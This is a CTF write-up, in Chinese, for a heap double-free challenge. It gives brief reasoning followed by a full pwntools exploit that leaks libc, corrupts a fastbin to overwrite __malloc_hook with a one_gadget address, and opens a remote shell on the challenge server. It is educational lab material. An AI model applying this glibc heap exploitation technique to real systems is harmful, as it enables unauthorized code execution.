

# level3
### 思路
1. 给了一个libc函数setbuf的地址，可以推算libc的基地址。 
2. 利用double free在malloc_hook附近开一个新的内存块，将malloc_hook的地址修改成one_gadget，可以再次调用malloc就可以执行one_gadget，拿shell.
3. 比较小的堆块free时会先放到fastbin上，malloc时先从fastbin上取。由于进行free时,只会检查fastbin检查直接指向的堆块，不会检查后面的堆块。通过free后面的堆块可以实现任意地址写。

4. 由于one_gadget的条件都不满足，可以连续free两次一个区块，错误处理的时候，也会调用malloc， 由于这时函数调用比较多， 栈比较深，$rsp加上一个值很可能是0,这时one_gadget条件就满足了。

### exp
```python
from pwn import *
context.log_level="debug"
pwn_file="./level3-double-free"
elf=ELF(pwn_file)
libc=elf.libc

if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("pwn.sixstars.team",22503)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    pause()

def addnote(content = ''):
    r.recvuntil(">> ")
    r.sendline("1")
    r.recvuntil("Content: ")
    if content:
      r.sendline(content)
    else:
      r.sendline('abc')

def deletenote(nid):
    r.recvuntil(">> ")
    r.sendline("3")
    r.recvuntil("Input your id:")
    r.sendline(str(nid))

setbuf_addr = r.recvline()[-15:-1]
setbuf_addr = int(setbuf_addr,16)
libc.address = setbuf_addr - libc.sym["setbuf"]
print hex(libc.address)

addnote() #0
addnote() #1
deletenote(0) 
deletenote(1)
deletenote(0)

malloc_block = libc.sym['__malloc_hook'] -0x23 

print hex(malloc_block)
addnote(p64(malloc_block)) # 2 is previous 0
addnote() # 3 
addnote() # 4 

one_gadget = 0xf02a4
sh_addr = libc.address + one_gadget
payload2 = 'a'*19 + p64(sh_addr)
addnote(payload2) # 5

deletenote(3)

r.recvuntil(">> ")
r.sendline("3")
r.recvuntil("Input your id:")
debug()
r.sendline("3")
r.interactive()
```